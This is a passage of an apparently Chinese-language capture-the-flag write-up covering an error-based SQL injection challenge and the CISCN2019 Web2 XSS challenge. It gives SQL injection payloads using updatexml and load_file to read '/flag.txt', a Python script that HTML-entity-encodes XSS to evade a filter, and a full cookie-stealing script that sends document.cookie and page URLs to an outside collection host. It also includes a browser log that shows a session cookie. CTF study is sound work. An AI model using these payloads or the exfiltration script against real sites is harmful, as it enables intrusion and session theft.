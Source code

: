 我们直接构造报错注入试试

先注入，再更新触发

```
poc:1' where `user_id`=updatexml(1,concat(1,(database())),1)#
->
errorXPATH syntax error: 'ctfusers'
```

然后就是找flag在哪了。。。。

找了半天跟我说要load_file？？？？？

好吧。。。证明sql题flag不一定在库里

```
payload:1' where `user_id`=updatexml(1,concat(1,(select load_file('/flag.txt'))),1)#
```

## [CISCN2019 华东北赛区]Web2

很明显的XSS题了，可以写页面，可以反馈给bot。

怎么绕waf呢

第一步通过``<svg><script>eval(xss)</script>``的方式绕过

然后waf对于``()``等的绕过通过HTMLMarkUp的方式绕过

Poc:

```python
xss ="alert('123');"
output = ""
for ch in xss:
    output += "&#" + str(ord(ch))

print("<svg><script>eval&#40&#34" + output + "&#34&#41</script>")
```

然后直接塞xss平台上的代码好像不行，有个CSP

```js
(function(){(new Image()).src='http://xss.buuoj.cn/index.php?do=api&id=U3widY&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if(''==1){keep=new Image();keep.src='http://xss.buuoj.cn/index.php?do=keepsession&id=U3widY&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
```

```
4026effd74d5780b0b55936f19dff219.html:1 Refused to load the image 'http://xss.buuoj.cn/index.php?do=api&id=U3widY&location=http%3A//cb561470-59bf-403a-a7e4-ab22f777cb25.node3.buuoj.cn/post/4026effd74d5780b0b55936f19dff219.html&toplocation=http%3A//cb561470-59bf-403a-a7e4-ab22f777cb25.node3.buuoj.cn/post/4026effd74d5780b0b55936f19dff219.html&cookie=_ga%3DGA1.2.2113857027.1593076385%3B%20PHPSESSID%3Def70ae11f5564d115dc99d63fe49ff02&opener=http%3A//cb561470-59bf-403a-a7e4-ab22f777cb25.node3.buuoj.cn/post.php' because it violates the following Content Security Policy directive: "default-src 'self'". Note that 'img-src' was not explicitly set, so 'default-src' is used as a fallback.
```
